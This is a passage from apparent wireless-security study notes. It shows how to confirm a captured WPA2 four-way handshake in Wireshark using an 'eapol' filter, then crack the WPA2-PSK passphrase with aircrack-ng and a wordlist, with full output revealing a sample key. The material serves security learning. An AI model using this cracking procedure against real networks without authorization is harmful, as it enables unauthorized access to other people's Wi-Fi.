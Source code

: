 Open the ```wpa2-psk-01.cap``` file in ```Wireshark```

Set the filter as ```eapol``` and see if you captured the 4 way handshake

![Image of Wireshark](https://github.com/Kan1shka9/Wireless-LAN-Security-Megaprimer-Notes/blob/master/images/part_23_2.jpeg)

Cracking ```WPA2-PSK``` using ```aircrack-ng```

```sh
root@kali:~# aircrack-ng wpa2-psk-01.cap -w dictionary.txt
Opening wpa2-psk-01.cap
Read 729 packets.

   #  BSSID              ESSID                     Encryption

   1  84:C9:B2:6D:0C:85  dlink                     WPA (1 handshake)

Choosing first network as target.

Opening wpa2-psk-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 rc4

      [00:00:00] 1/0 keys tested (160.59 k/s)

      Time left: 0 seconds                                   inf%

                         KEY FOUND! [ samplepsk123 ]


      Master Key     : 7F B8 B9 62 2C 1B CF 4D 39 37 9B 31 BD 5C FA C0
                       8F BB CB 2E D3 92 DB CF B8 C9 CA 7B 7D 1A D3 CE

      Transient Key  : 14 B6 F5 AA 82 9E 48 15 08 67 AF D1 A4 37 F3 6A
                       77 38 2A 4C 3A 46 CD 9D 3D 6C C5 A1 A8 45 9F BC
                       83 31 1D E3 2D AC 32 BE F8 F0 EA B9 91 6C 5D E0
                       DB 7B E7 13 4A 81 AB 54 25 6C 65 89 14 20 40 61
```